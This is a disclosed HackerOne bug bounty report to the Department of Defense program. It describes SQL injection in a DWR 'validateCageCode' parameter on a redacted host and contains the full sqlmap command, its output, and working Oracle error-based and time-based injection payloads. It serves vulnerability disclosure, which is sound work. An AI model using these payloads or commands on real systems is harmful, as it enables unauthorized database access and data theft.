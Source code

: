 # SQL injection on https://███████

## Report Details
- **Report ID**: 214798
- **URL**: https://hackerone.com/reports/214798
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-20T05:39:03.589Z
- **Disclosed**: 2019-12-02T18:43:51.892Z

## Reporter
- **Username**: daveysec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The `c0-param0` parameter of https://███/██████████/dwr/exec/EndUserSvc.validateCageCode?callCount=1&c0-scriptName=EndUserSvc&c0-methodName=validateCageCode&c0-id=5096_1489967152565&c0-param0=string:1 is vulnerable to SQL injection.

**Description:**
By inserting a single quote after the `1` in the `string:1` value of the `c0-param0` parameter I received an Oracle SQL error. Using the SQLMap tool I was able to confirm this parameter is indeed vulnerable to SQL injection.
SQLMap command and output:

```
root@kali:~/bugbounty# sqlmap -u "https://████/█████████/dwr/exec/EndUserSvc.validateCageCode?callCount=1&c0-scriptName=EndUserSvc&c0-methodName=validateCageCode&c0-id=5096_1489967152565&c0-param0=string:1*"
         _
 ___ ___| |_____ ___ ___  {1.0.8.2#dev}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 20:21:54

custom injection marking character ('*') found in option '-u'. Do you want to pry
[20:22:03] [INFO] testing connection to the target URL
[20:22:04] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[20:22:04] [INFO] testing if the target URL is stable
[20:22:05] [INFO] target URL is stable
[20:22:05] [INFO] testing if URI parameter '#1*' is dynamic
[20:22:05] [WARNING] URI parameter '#1*' does not appear dynamic
[20:22:05] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'Oracle')
[20:22:05] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'Oracle'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'Oracle' extending provided level (1) and risk (1) values? [Y/n] y
[20:22:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:22:20] [WARNING] reflective value(s) found and filtering out
[20:22:21] [INFO] testing 'Oracle boolean-based blind - Parameter replace'
[20:22:22] [INFO] testing 'Oracle boolean-based blind - Parameter replace (original value)'
[20:22:22] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause'
[20:22:23] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[20:22:24] [INFO] testing 'Oracle boolean-based blind - Stacked queries'
[20:22:39] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:22:50] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[20:23:00] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[20:23:10] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[20:23:21] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[20:23:33] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[20:23:42] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (DBMS_UTILITY.SQLID_TO_SQLHASH)'
[20:23:43] [INFO] URI parameter '#1*' is 'Oracle AND error-based - WHERE or HAVING clause (DBMS_UTILITY.SQLID_TO_SQLHASH)' injectable 
[20:23:43] [INFO] testing 'Oracle inline queries'
[20:23:43] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:23:43] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE)'
[20:23:43] [INFO] testing 'Oracle stacked queries (heavy query - comment)'
[20:23:44] [INFO] testing 'Oracle stacked queries (heavy query)'
[20:23:44] [INFO] testing 'Oracle stacked queries (DBMS_LOCK.SLEEP - comment)'
[20:23:44] [INFO] testing 'Oracle stacked queries (DBMS_LOCK.SLEEP)'
[20:23:44] [INFO] testing 'Oracle stacked queries (USER_LOCK.SLEEP - comment)'
[20:23:44] [INFO] testing 'Oracle stacked queries (USER_LOCK.SLEEP)'
[20:23:45] [INFO] testing 'Oracle AND time-based blind'
[20:23:45] [INFO] testing 'Oracle OR time-based blind'
[20:23:45] [INFO] testing 'Oracle AND time-based blind (comment)'
[20:23:45] [INFO] testing 'Oracle OR time-based blind (comment)'
[20:23:45] [INFO] testing 'Oracle AND time-based blind (heavy query)'
[20:24:16] [WARNING] turning off pre-connect mechanism because of connection time out(s)
[20:24:46] [INFO] URI parameter '#1*' appears to be 'Oracle AND time-based blind (heavy query)' injectable 
[20:24:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 418 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: Oracle AND error-based - WHERE or HAVING clause (DBMS_UTILITY.SQLID_TO_SQLHASH)
    Payload: https://█████:443/█████/dwr/exec/EndUserSvc.validateCageCode?callCount=1&c0-scriptName=EndUserSvc&c0-methodName=validateCageCode&c0-id=5096_1489967152565&c0-param0=string:1' AND 9965=DBMS_UTILITY.SQLID_TO_SQLHASH((CHR(113)||CHR(106)||CHR(106)||CHR(120)||CHR(113)||(SELECT (CASE WHEN (9965=9965) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(106)||CHR(98)||CHR(112)||CHR(113)))-- Goij

    Type: AND/OR time-based blind
    Title: Oracle AND time-based blind (heavy query)
    Payload: https://██████:443/████/dwr/exec/EndUserSvc.validateCageCode?callCount=1&c0-scriptName=EndUserSvc&c0-methodName=validateCageCode&c0-id=5096_1489967152565&c0-param0=string:1' AND 4917=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)-- vKNF
---
[20:34:42] [INFO] the back-end DBMS is Oracle
back-end DBMS: Oracle
[20:34:42] [INFO] fetched data logged to text files under '/root/.sqlmap/output/██████████'

[*] shutting down at 20:34:42
```
## Impact
Compromise of data stored in the database. Possibility of achieving RCE on the server through SQL injection.

## Step-by-step Reproduction Instructions

1.run the following command with SQLMap 1.0.8.2 `sqlmap -u "https://█████/███/dwr/exec/EndUserSvc.validateCageCode?callCount=1&c0-scriptName=EndUserSvc&c0-methodName=validateCageCode&c0-id=5096_1489967152565&c0-param0=string:1*"`
2. It will show that it is injectable and from there further data can be extracted from the database.

## Product, Version, and Configuration (If applicable)
SQLMap 1.0.8.2

## Suggested Mitigation/Remediation Actions
Properly escape input from users when inserting into SQL queries.

## Attachments
No attachments
